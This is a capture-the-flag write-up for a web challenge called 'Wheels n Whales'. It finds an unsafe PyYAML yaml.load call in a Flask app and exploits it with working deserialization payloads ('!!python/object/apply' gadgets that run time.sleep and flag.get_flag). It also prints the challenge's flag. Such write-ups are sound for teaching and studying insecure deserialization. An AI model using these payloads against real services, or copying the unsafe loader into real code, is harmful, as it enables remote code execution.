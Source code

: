 # Wheels n Whales

## Description
This task gives us a link to a site where you can create a Wheel or a Whale. It asks for different inputs and will create a Wheel or a Whale for you. We are also given the python source code that the site is running.

## Static Analysis
The Python code we get is pretty simple, it has two POST routes, `/wheels` and `/whales`. First we look at how the whale route is handled:

```Python
EASTER_WHALE = {"name": "TheBestWhaleIsAWhaleEveryOneLikes", "image_num": 2, "weight": 34}

...

@app.route("/whale", methods=["GET", "POST"])
def whale():
    if request.method == "POST":
        name = request.form["name"]
        if len(name) > 10: 
            return make_response("Name to long. Whales can only understand names up to 10 chars", 400)
        image_num = request.form["image_num"]
        weight = request.form["weight"]
        whale = Whale(name, image_num, weight)
        if whale.__dict__ == EASTER_WHALE:
            return make_response(flag.get_flag(), 200)
        return make_response(render_template("whale.html.jinja", w=whale, active="whale"), 200)
    return make_response(render_template("whale_builder.html.jinja", active="whale"), 200)
``` 
I see that this route is extracting the form data from the request and putting it into variables. Then it is checking to make sure the name is less than 10 characters long. Finally we are creating a whale object with the data and checking if it is equal to `EASTER_WHALE`. If it is equal then we send the flag!! Easy! All we have to do is send 
```Json
{"name": "TheBestWhaleIsAWhaleEveryOneLikes", "image_num": 2, "weight": 34}
``` 
to the server and we are given the flag right? No. The name "TheBestWhaleIsAWhaleEveryOneLikes" is longer than 10 characters so it will actually send 
```Python
return make_response("Name to long. Whales can only understand names up to 10 chars", 400)
``` 
Now lets take a look at how /wheels works.

```Python
@app.route("/wheel", methods=["GET", "POST"])
def wheel():
    if request.method == "POST":
        if "config" in request.form:
            wheel = Wheel.from_configuration(request.form["config"])
            return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
        name = request.form["name"]
        image_num = request.form["image_num"]
        diameter = request.form["diameter"]
        wheel = Wheel(name, image_num, diameter)
        print(wheel.dump())
        return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
    return make_response(render_template("wheel_builder.html.jinja", active="wheel"), 200)
```
Here we can see that if we send a POST request with "config" in the form data we will run the following two lines:

```Python
wheel = Wheel.from_configuration(request.form["config"])
return make_response(render_template("wheel.html.jinja", w=wheel, active="wheel"), 200)
```
If we look at what `Wheel.from_configuration` is doing we see the following: 
```Python
@staticmethod
def from_configuration(config):
    return Wheel(**yaml.load(config, Loader=yaml.Loader))
```

## Testing
After doing some research I found that we can run/create objects if we can control the input into `yaml.load` (https://webcache.googleusercontent.com/search?q=cache:Z3GtKZReRzoJ:https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf%3Futm_source%3Ddlvr.it%26utm_medium%3Dtwitter+&cd=1&hl=en&ct=clnk&gl=be&client=firefox-b-e). I used `time.sleep(10)` to test the theory on my local machine. 

```Python
import yaml
import time

data = "{'name': !!python/object/apply:time.sleep [10], 'image_num': 2, 'diameter':2}"

class Wheel:
    def __init__(self, name, image_num, diameter):
        self.name = name
        self.image_num = image_num
        self.diameter = diameter

    @staticmethod
    def from_configuration(config):
        return Wheel(**yaml.load(config, Loader=yaml.Loader))
        
    def dump(self):
        return yaml.dump(self.__dict__)

wheel = Wheel.from_configuration(data)
```
If you run this test code you will see that the program will hang for 10 seconds before finishing. 

## Solution
Instead of calling time.sleep() we can call `flag.get_flag()` as they did in the Whale route. I used Postman to send a POST request to wheel route with the form data containing `{config: {'name': !!python/object/apply:flag.get_flag [], 'image_num': 2, 'diameter':2}}`. The server responded with:
```
diameter: 2
image_num: 2
name: CSR{TH3_QU3STION_I5_WHY_WHY_CAN_IT_DO_THAT?!?}
```

flag = "CSR{TH3_QU3STION_I5_WHY_WHY_CAN_IT_DO_THAT?!?}"